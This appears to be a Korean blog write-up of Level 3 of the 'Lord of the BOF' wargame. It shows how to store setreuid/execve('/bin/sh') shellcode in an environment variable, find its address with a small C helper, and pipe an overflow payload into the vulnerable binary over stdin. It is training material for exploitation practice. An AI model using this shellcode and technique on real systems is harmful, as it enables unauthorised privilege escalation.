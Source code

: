 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 3"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level3/1.jpg" | relative_url }}' alt='relative'>  

## 1) cobolt/hacking exposed 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level3/2.png" | relative_url }}' alt='relative'>  

힌트는 small buffer에 stdin으로 공격 페이로드를 입력하는 것입니다.  

level2번 문제처럼 Eggshell 방법으로 풀고 입력만 stdin 방식으로 입력하면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level3/3.png" | relative_url }}' alt='relative'>  

이번 문제는 <a href="https://hsong2.github.io/lob/2021/06/30/The-Lord-of-the-BOF-Level-2.html#stack">level2번 문제</a>와 동일한 구조를 갖고 있습니다.  

공격 페이로드를 그대로 사용하겠습니다. 물론 쉘코드가 저장된 환경변수 주소는 변경해야 합니다.  

``` bash
./cobolt `python -c 'print "\x90"*20+"[쉘코드가 저장된 환경변수 주소]"'`
```

## 2) 환경변수에 쉘코드 저장하기  

<img data-action="zoom" src='{{ "assets/lob/level3/4.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

``` bash
./getenv
```

## 3) 공격 페이로드 입력하여 BOF 일으키기  

파이프라인을 사용하면 프로그램 실행 시 stdin 입력을 동시에 줄 수 있습니다.  
파이프라인을 사용해 위의 공격 페이로드를 수정해야 합니다.  

``` bash
(python -c 'print "\x90"*20+"\x95\xfe\xff\xbf"'; cat) | ./goblin
```

<img data-action="zoom" src='{{ "assets/lob/level3/5.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level3/6.png" | relative_url }}' alt='relative'>  